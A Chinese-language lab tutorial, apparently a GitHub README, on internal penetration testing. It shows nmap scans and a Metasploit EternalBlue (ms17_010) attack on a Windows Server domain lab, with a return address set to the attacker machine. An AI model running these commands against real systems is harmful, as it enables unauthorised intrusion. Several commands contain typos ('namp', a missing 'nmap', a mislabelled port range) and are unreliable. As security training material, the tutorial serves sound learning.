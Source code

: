 # 內網滲透測試Internal Penetration Testing
## 內網滲透測試介紹
> Windows Server是公司內部主要會用來建立內網與管理內網的一台伺服器。

> 所以內網滲透測試的最主要目標就是透過模擬攻擊來取得Windows Server的最高權限。

> 可以透過很多種手法都可以來模擬攻擊Windows Server內網環境。確保公司的內網的安全品質。

> 網路安全工程師可以管理整個公司不同部門的帳號與存取權限,並隨時監控內網的異常帳號活動。

## 實際操作
### Step 1 
- 安裝一台kali_linux虛擬機
- 安裝一台Windows_Server虛擬機,並配置AD DS
- 安裝一台Windows_10虛擬機並加入Windows Server的網域下
### Step 2
- 進入kali linux的終端機,使用nmap掃描Windows Server的運行服務
- **2-1使用nmap掃描,確認Windows Server的狀態**
- > Nmap是一個掃瞄系統正在運行的網路服務的工具,通常在kali linux都已安裝Nmap,只需輸入指令就可開啟。
```
sudo namp -sv [目標IP]
```
- ![image](https://github.com/user-attachments/assets/536dd87b-a074-41a7-84e4-64d7ce28b246)
- **2-2使用nmap掃描1-1000的所有開放的port**
```
sudo namp -p 1-65535 [目標IP]
```
- ![image](https://github.com/user-attachments/assets/3f68400a-c5ea-48b3-bdeb-ce86cc9e0522)
- **2-3使用nmap進行SYN掃描只發送SYN而不完成三向交握(不易被目標系統察覺)**
```
sudo namp -sS [目標IP]
```
- ![螢幕擷取畫面 2024-10-06 214744](https://github.com/user-attachments/assets/592b7e24-e7a4-47a3-bc83-82af3d5b90e1)
- **2-4使用nmapTCP 全連接掃描,完成三向交握(較易被目標系統察覺)**
```
sudo -sT [目標IP]
```
- ![image](https://github.com/user-attachments/assets/a8e59599-7b01-4327-8c30-b7397787172d)

### Step 3
- **3-1開啟漏洞掃描工具Metasploit Framework**
> Metasploit Framework是一個漏洞利用框架,通過已被發現的漏洞與已經存在的攻擊模塊去進行自動化攻擊。

> 通常在kali linux都已安裝Metasploit Framework,只需輸入指令就可開啟。

> 可以不用自己去漏洞分析目標系統漏洞,就自動化去攻擊目標系統。

> 但是如果是攻擊正版授權系統且該系統已經修復大多數被發現的漏洞,就需要去學習逆向工程或學習漏洞分析。

> 滲透測試專家與安全研究人員就是在學習與研究這些發現漏洞的技術。
```
sudo msfconsole
```
- Metasploit Framework成功開啟畫面
- ![image](https://github.com/user-attachments/assets/d458bf3b-5619-41b7-9a0d-47eebbd6fe4c)
### Step 4
- **4-1使用metasploit的自動化漏洞模塊**
```
use exploit/windows/smb/ms17_010_eternalblue
```
- **4-2設置要攻擊的系統IP位址**
```
set RHOST [目標IP]
```
- ![image](https://github.com/user-attachments/assets/4e290b13-a2e3-4473-b5a7-66090fe51713)
- **4-3設置攻擊成功後要返回的攻擊機IP地址**
```
set LHOST [攻擊機IP]
```
- **4-4開始漏洞利用**
```
exploit
```
- 顯示已完成攻擊,但並未建立任何的連線,就代表該漏洞已經被修復了。
- ![螢幕擷取畫面 2024-10-13 154541](https://github.com/user-attachments/assets/831df7d6-3542-4b60-8e54-46f2d41fec57)

- 利用漏洞掃描工具掃描可利用的系統漏洞
- 利用系統漏洞進入Windows Server
### Step 4
- 進入Windows Server後提升至管理員權限
- 查看網域下的PC有幾台
